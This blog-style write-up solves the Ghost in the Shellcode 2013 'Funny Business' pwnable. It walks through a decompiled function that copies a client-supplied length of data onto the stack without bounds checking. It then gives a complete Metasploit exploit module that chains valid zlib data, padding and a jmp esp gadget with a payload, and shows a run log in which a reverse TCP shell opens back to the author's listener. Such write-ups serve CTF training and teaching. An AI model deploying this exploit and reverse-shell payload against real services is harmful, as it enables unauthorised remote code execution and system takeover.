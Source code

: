 ```yaml
---
layout: post
title: "GitS 2013 - Funny Business"
date: 2013-02-17 13:53
comments: true
categories: [pwnable, rop]
author: stacks0n
---
```

## Challenge
Points: 100

Find the key! ([File](https://2013.ghostintheshellcode.com/funnybusiness-fb84813ddd932f6aceee0ed3a4e9f1e0a7082dc1) running at funnybusiness.2013.ghostintheshellcode.com)
## Analysis

In order to get the binary to run on 32-bit Linux, you first need to run:
```bash
$ adduser funnybusiness
$ sudo su
$ ./funnybiz.elf
```

Application is running on port 49681:
```bash
stacks0n@ubuntu:~/Desktop$ netstat -antp | grep LISTEN | grep funnybiz
tcp        0      0 0.0.0.0:49681           0.0.0.0:*               LISTEN      17495/funnybiz.elf   
```

Let's look at HexRays decompilation of sub_8048C60:
```
int __cdecl sub_8048D70(int sock_fd)
{
  int v1; // ebx@1
  char v3; // [sp+1Fh] [bp-Dh]@4

  *(_QWORD *)&strm.zalloc = 0LL;
  strm.opaque = 0;
  *(_QWORD *)&strm.next_in = 0LL;
  v1 = inflateInit_(&strm, "1.2.7", 56);
  if ( !v1 )
  {
    read_data_from_socket(sock_fd, &strm.avail_in, 4);
    if ( strm.avail_in <= 0x4000 )
    {
      read_data_from_socket(sock_fd, &v3, strm.avail_in);
      strm.next_in = (Bytef *)&v3;
      strm.avail_out = 16384;
      strm.next_out = (Bytef *)&unk_804B0A0;
      if ( inflate(&strm, 4) != 1 )
        exit(0);
      inflateEnd(&strm);
    }
  }
  return v1;
}
```

We first send the size of our zlib data, which must be less than 0x4000. The size we provide is then used for the number of bytes to be read off the wire next.

The second call to read_from_socket() is copying our data directly to the stack, without any bounds checking. In this case, there isn't even a buffer allocated for the data. 

The last requirement is that the data supplied must be valid compressed zlib data, otherwise the program will exit before returning from this function. So, we simply send the smallest possible zlib stream and append our payload. The zlib stream will contain a size so we don't have to worry about the appended data.

Find simple ROP gadget to redirect execution to the stack (since its executable) to avoid any issues with stack randomization.

```
stacks0n@stack0ns-MacBook-Pro:~> ./msfelfscan funnybiz.elf -j esp
[/Users/stacks0n/funnybiz.elf]
0x08049043 jmp esp
```

MSF module as follows:
```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = GreatRanking

        include Msf::Exploit::Remote::Tcp

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'GitS 2013 Pwnable 100 - Funny Business',
                        'Author'         => 'stacks0n',
                        'License'        => MSF_LICENSE,
                        'Privileged'     => true,
                        'Platform'       => 'linux',
                        'DefaultTarget'  => 0))

                register_options(
                        [
                                Opt::RHOST('54.235.156.9'),
                                Opt::RPORT(49681)
                        ], self.class)

        end

        def exploit
                connect
                # we must send valid zlib data so the code doesn't exit
                # this is zlib deflation of a single 'a'
                zlib    = "\x78\x9C\x73\xE4\x02\x00\x00\x8E\x00\x4C"
                padding = "\x90\x90\x90"
                rop     = "\x43\x90\x04\x08" # jmp esp
                p       = zlib + padding + rop + payload.encoded

                # send the size of our payload
                sock.put([p.size].pack("L"))
                # send the payload
                sock.put(p)

                handler
                disconnect
        end

end
```

```bash
msf  exploit(funny_business) > show options

Module options (exploit/gits/funny_business):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  54.235.156.9     yes       The target address
   RPORT  49681            yes       The target port


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  68.47.237.170     yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf  exploit(funny_business) > exploit 

[-] Handler failed to bind to 68.47.237.170:4444
[*] Started reverse handler on 0.0.0.0:4444 
[*] Command shell session 1 opened (192.168.1.30:4444 -> 54.235.156.9:57768) at 2013-02-15 23:54:39 -0500

cat key
Compressions can be hard at times
```

## Solution
Compressions can be hard at times
